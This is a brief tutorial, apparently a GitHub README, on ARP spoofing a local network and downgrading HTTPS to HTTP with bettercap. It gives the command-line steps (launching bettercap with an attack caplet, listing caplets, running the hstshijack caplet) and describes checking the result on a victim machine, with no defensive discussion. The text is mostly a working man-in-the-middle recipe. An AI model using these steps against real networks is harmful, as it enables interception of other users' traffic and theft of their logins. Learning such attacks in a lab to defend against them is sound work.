 # Arp-Spoofing for HTTPS

## Downgrade HTTPS to HTTP

```bash
bettercap -iface eth0 -caplet https_arp_attack.cap
```

```bash
help
```
Make sure they are on, running:

![image](https://github.com/user-attachments/assets/787dd6e8-5321-4e7d-875a-15eb0ee8262b)


Show caplets:

```bash
caplets.show
```

Run hstshijack/hstshijack caplet:

```bash
hstshijack/hstshijack
```
Then on the target machine if you go a website uses https (go to google.com and search linkedin, click the linkedin web page at the beginning):

![image](https://github.com/user-attachments/assets/df57bb4c-ce8d-48a6-be4f-60b797290fc6)


PS: it will only work when the user uses non https search engine like google.ie

